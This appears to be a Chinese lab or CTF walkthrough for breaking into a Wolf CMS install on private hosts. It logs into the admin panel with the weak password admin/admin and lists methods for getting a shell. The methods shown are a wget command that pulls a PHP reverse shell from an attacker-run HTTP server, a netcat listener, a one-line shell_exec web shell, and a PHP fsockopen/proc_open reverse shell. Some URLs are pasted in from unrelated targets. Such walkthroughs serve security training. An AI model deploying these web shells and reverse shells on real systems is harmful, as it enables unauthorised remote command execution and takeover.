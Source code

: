
7、文件上传分析

谷歌搜索：Wolf CMS 后台地址
参考文章：
https://cloud.tencent.com/developer/article/1047292

或者kali搜索：searchsploit Wolf CMS
php/webapps/38000.txt



知道后台地址为：/?/admin/login
访问：http://10.211.55.39/wolfcms/?/admin/login
存在弱口令：
admin/admin
成功登录！


回顾项目十的五种拿shell的方法，都可以适用到这里我放过来：
********************************************************
*****后面可以用项目八  四个方法进行拿shell
------------------------------------------------------
方法1：
反弹shell：
cp /usr/share/webshells/php/php-reverse-shell.php .   ----复制phpshell到本文件夹
python -m SimpleHTTPServer 8081   ----开启http服务
http://10.211.55.36/imfadministrator/uploads/bf12807d791f.gif?cmd=wget%20http://10.211.55.19:8081/php-reverse-shell.php
wget下载phpwebshell到uoload目录！

nc -vlp 1234
https://10.211.55.37:12380/blogblog/wp-content/uploads/php-reverse-shell.php  ----访问
成功获得反弹shell！
------------------
方法2：一句话get请求

<?php echo shell_exec($_GET['cmd']);?>

http://10.211.55.39/wolfcms/public/1.php?cmd=whoami  ---回显正常

一句话反弹！
nc -vlp 10.211.55.19
这时候就信息枚举即可！

------------------
方法3：
<?php
$sock=fsockopen('10.211.55.19',8888);
$descriptorspec=array(
0=>$sock,
1=>$sock,
2=>$sock
);
$process=proc_open('/bin/sh',$descriptorspec,$pipes);
proc_close($process);
echo phpinfo();
?>
------------------
